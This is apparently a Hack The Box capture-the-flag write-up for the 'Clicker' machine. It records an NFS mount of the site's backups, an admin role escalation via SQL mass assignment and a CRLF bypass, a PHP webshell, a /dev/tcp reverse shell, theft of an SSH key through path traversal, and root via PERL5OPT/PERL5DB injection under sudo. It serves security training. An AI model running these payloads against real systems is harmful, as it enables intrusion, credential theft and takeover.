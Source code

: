 # Clicker


![Homepage](/HTB/Clicker/Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

![Nmap](/HTB/Clicker/Screenshots/2023-12-19-11-27-30.png)

```rpcbind reveals that nfs is available and supporting older versions.```

![rpcinfo](/HTB/Clicker/Screenshots/2023-12-19-11-13-47.png)

```Knowing this, mount the share```

![showmounts](/HTB/Clicker/Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](/HTB/Clicker/Screenshots/2023-12-19-11-35-38.png)

```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

![role](/HTB/Clicker/Screenshots/2023-12-19-11-42-05.png)

```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```

![authentication.php](/HTB/Clicker/Screenshots/2023-12-19-11-44-47.png)

```To access `admin.php` we'll need to set our role to admin```

![admin.php](/HTB/Clicker/Screenshots/2023-12-19-11-45-44.png)


```Theres two ways to achieve that:```
- SQL mass assignment
- CRLF vulnerability


[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment

    role%3d'Admin',clicks=2000

```By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.```

![mass assign](/HTB/Clicker/Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

```By adding %0a to `role` we can bypass the blacklist```

![CRLF](/HTB/Clicker/Screenshots/2023-12-19-11-49-12.png)

```Now if we relog we should be able to access the admin panel```

![Administration](/HTB/Clicker/Screenshots/2023-12-19-11-59-17.png)

![Administration content](/HTB/Clicker/Screenshots/2023-12-19-11-59-50.png)

![exports](/HTB/Clicker/Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](/HTB/Clicker/Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](/HTB/Clicker/Screenshots/2023-12-19-12-07-50.png)

```As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.```

![php payload](/HTB/Clicker/Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

![command execution](/HTB/Clicker/Screenshots/2023-12-19-12-23-28.png)

```Now that we've tested that it's possible, time to get a reverseshell```

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

```send the payload:```

```bash
echo <your base64 string> | base64 -d | bash
```

![revshell](/HTB/Clicker/Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](/HTB/Clicker/Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](/HTB/Clicker/Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](/HTB/Clicker/Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](/HTB/Clicker/Screenshots/2023-12-19-13-02-55.png)

```By running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.```

![Strace for execute_query 1](/HTB/Clicker/Screenshots/2023-12-19-13-04-31.png)

```we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.```

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](/HTB/Clicker/Screenshots/2023-12-19-13-10-24.png)

```It executes the same file as option 1 would. Let's try directory traversal.```

![/etc/passwd/](/HTB/Clicker/Screenshots/2023-12-19-13-11-43.png)

```Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.```

![id_rsa](/HTB/Clicker/Screenshots/2023-12-19-13-13-51.png)

```We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. ```

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](/HTB/Clicker/Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](/HTB/Clicker/Screenshots/2023-12-19-13-19-41.png)

### Escalation to root

```Check for sudo -l to list all sudo priviledges```

![sudo -l](/HTB/Clicker/Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](/HTB/Clicker/Screenshots/2023-12-19-13-26-41.png)

```We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable. So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:```

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

```Essentially we're only interested in the payload:```

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

```Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.```

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

```It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.```

![euid=root](/HTB/Clicker/Screenshots/2023-12-19-13-41-23.png)

#### flag

![rootflag](/HTB/Clicker/Screenshots/2023-12-19-13-42-16.png)

![Pwnd](/HTB/Clicker/Screenshots/2023-12-19-13-45-08.png)
